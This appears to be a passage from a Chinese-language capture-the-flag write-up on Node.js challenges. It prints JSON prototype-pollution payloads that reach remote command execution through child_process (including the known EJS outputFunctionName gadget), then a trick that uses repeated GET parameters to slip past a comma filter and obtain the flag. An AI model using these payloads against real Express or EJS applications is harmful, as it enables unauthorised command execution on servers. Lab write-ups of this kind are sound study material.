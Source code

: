 `user.__proto__`不是`Object`，是`f()`。`user.__proto__.__proto__`才是，所以需要污染两层。
```json
{
    "__proto__": {
        "__proto__": {
            "query": "return global.process.mainModule.constructor._load('child_process').exec('id')"
        }
    }
}
```
### 4
```js
router.get('/', function(req, res, next) {

  res.type('html');

  res.render('index');

});
```
ejs rce
```json
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('id');var __tmp2"}}}
```

# get绕过
```js
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }

});
```
正常传入
```json
{
    "name": "admin",
    "password": "ctfshow",
    "isVIP": true
}
```
但过滤了`,`和`/2c`，所以即便`req.url`不进行url解码，也无法传入逗号。
利用`req.query.query`的特性：传入的相同get参数会加入一个数组，然后`JSON.parse`会把数组内的元素拼接在一起。
也就是传入`query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}`的话，第一步得到`['{"name":"admin"','"password":"ctfshow"','"isVIP":true}']`，第二步就是目标json。
使用%63是防止`"`编码后的`%22`和`C`变为`2c`被过滤。